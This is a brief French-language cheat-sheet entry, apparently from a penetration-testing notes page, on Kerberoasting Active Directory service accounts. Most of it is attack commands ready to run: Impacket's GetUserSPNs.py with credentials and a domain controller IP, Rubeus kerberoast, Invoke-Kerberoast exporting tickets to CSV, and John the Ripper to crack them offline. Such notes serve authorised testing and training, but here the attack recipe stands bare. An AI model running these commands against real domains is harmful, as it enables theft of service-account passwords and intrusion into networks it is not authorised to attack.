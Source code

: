 Kerberoasting permet à un utilisateur de demander un ticket de service pour n'importe quel service avec un SPN enregistré, puis d'utiliser ce ticket pour déchiffrer le mot de passe du service. **Si le service a un SPN enregistré, il peut être Kerberoastable**

```sh
GetUserSPNs.py dom.local/user:password -dc-ip 192.168.75.152 -request
```

```c
Rubeus.exe kerberoast
```

```sh
Invoke-Kerberoast -domain dom.local | Export-CSV -NoTypeInformation output.csv
john --session=Kerberoasting output.csv
```